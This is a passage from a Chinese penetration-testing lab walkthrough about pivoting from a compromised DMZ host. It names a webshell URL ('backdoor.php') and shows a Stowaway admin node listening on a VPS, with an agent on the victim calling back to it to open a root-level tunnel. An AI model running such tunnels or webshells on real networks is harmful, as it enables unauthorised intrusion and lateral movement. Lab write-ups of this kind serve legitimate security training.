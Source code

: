 由于 DMZ 主机 IP1 是桥接宿主机，IP 根据每台机器 DHCP 动态获取会有不同，以实际为准。

*建立第一层隧道*

拿下 DMZ 区域 Ubuntu 主机，Shell 地址 [http://172.20.10.3:81/backdoor.php，它的](http://172.20.10.3:81/backdoor.php%EF%BC%8C%E5%AE%83%E7%9A%84) Web 应用流量是反向代理到内网第二层网络，并且还是多网卡机器，因此能够访问第二层网络。

VPS 服务端开启 Socks 监听 8888，等待连接。-s 使用加密密钥 test 传输数据。

```plaintext
PS E:\Desktop\Stowaway> .\windows_x64_admin.exe -s test -proxyp asdf -proxyu proxy -l 8888
[*] Starting admin node on port 8888

    .-')    .-') _                  ('\ .-') /'  ('-.      ('\ .-') /'  ('-.
   ( OO ). (  OO) )                  '.( OO ),' ( OO ).-.   '.( OO ),' ( OO ).-.
   (_)---\_)/     '._  .-'),-----. ,--./  .--.   / . --. /,--./  .--.   / . --. /  ,--.   ,--.
   /    _ | |'--...__)( OO'  .-.  '|      |  |   | \-.  \ |      |  |   | \-.  \    \  '.'  /
   \  :' '. '--.  .--'/   |  | |  ||  |   |  |,.-'-'  |  ||  |   |  |,.-'-'  |  | .-')     /
    '..'''.)   |  |   \_) |  |\|  ||  |.'.|  |_)\| |_.'  ||  |.'.|  |_)\| |_.'  |(OO  \   /
   .-._)   \   |  |     \ |  | |  ||         |   |  .-.  ||         |   |  .-.  | |   /  /\_
   \       /   |  |      ''  '-'  '|   ,'.   |   |  | |  ||   ,'.   |   |  | |  | '-./  /.__)
    '-----'    '--'        '-----' '--'   '--'   '--' '--''--'   '--'   '--' '--'   '--'
                                    { v2.1  Author:ph4ntom }
[*] Waiting for new connection...
```

上传 agent，-c 反连 VPS 172.20.10.2:8888，--reconnect 断线后 10 重连一次。

```plaintext
root@ubuntu:/home/web/# ./linux_x64_agent -c 172.20.10.2:8888 -s test 
2023/03/13 00:54:48 [*] Starting agent node actively.Connecting to 172.20.10.2:8888
```

agent 与 VPS admin 端连接成功。

```plaintext
PS E:\Desktop\Stowaway> .\windows_x64_admin.exe -s test -l 8888
[*] Starting admin node on port 8888

    .-')    .-') _                  ('\ .-') /'  ('-.      ('\ .-') /'  ('-.
   ( OO ). (  OO) )                  '.( OO ),' ( OO ).-.   '.( OO ),' ( OO ).-.
   (_)---\_)/     '._  .-'),-----. ,--./  .--.   / . --. /,--./  .--.   / . --. /  ,--.   ,--.
   /    _ | |'--...__)( OO'  .-.  '|      |  |   | \-.  \ |      |  |   | \-.  \    \  '.'  /
   \  :' '. '--.  .--'/   |  | |  ||  |   |  |,.-'-'  |  ||  |   |  |,.-'-'  |  | .-')     /
    '..'''.)   |  |   \_) |  |\|  ||  |.'.|  |_)\| |_.'  ||  |.'.|  |_)\| |_.'  |(OO  \   /
   .-._)   \   |  |     \ |  | |  ||         |   |  .-.  ||         |   |  .-.  | |   /  /\_
   \       /   |  |      ''  '-'  '|   ,'.   |   |  | |  ||   ,'.   |   |  | |  | '-./  /.__)
    '-----'    '--'        '-----' '--'   '--'   '--' '--''--'   '--'   '--' '--'   '--'
                                    { v2.1  Author:ph4ntom }
[*] Waiting for new connection...
[*] Connection from node 172.20.10.3:58946 is set up successfully! Node id is 0
(admin) >> detail
Node[0] -> IP: 172.20.10.3:58946  Hostname: ubuntu  User: root
Memo:

(admin) >> 
```
